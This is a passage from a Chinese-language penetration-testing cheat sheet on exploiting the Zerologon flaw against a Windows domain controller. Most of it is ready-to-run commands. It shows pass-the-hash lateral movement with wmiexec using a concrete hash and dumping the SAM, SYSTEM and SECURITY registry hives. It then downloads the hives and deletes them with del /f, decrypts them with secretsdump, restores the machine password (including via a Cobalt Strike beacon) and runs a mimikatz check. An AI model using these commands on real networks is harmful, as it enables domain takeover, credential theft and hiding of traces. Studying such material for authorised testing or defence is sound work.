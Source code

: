 解决方法：

> https://github.com/fortra/impacket/issues/320
>
> 用`mimikatz`的`lsadump::zerologon`功能

#### 使用hash进行横向连接

```bash
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:7e9067ca378134e50512ab894de75517 mingy/administrator@10.10.10.10
```

#### 恢复域-获取hash

- 获取`SAM`数据库

  ```shell
  # 保存
  reg save HKLM\SYSTEM SYSTEM
  reg save HKLM\SAM SAM
  reg save HKLM\SECURITY SECURITY
  
  # 下载
  get SYSTEM
  get SAM
  get SECURITY
  
  # 删除
  del /f SYSTEM
  del /f SAM
  del /f SECURITY
  ```

- 解密`SAM`数据库

  ```bash
  python3 secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
  ```

#### 恢复域-还原hash

> https://github.com/risksense/zerologon

```bash
proxychains python3 reinstall_original_pw.py DC 10.10.10.10 2f7ff113dc8e29e9e2394cdbd05bf2ae
```

```beacon
shell reinstall_original_pw.exe DC 10.10.10.10 2f7ff113dc8e29e9e2394cdbd05bf2ae
```

### Mimikatz利用漏洞

#### 检测是否存在漏洞

```shell
mimikatz lsadump::zerologon /target:10.10.10.10 /account:DC$
```
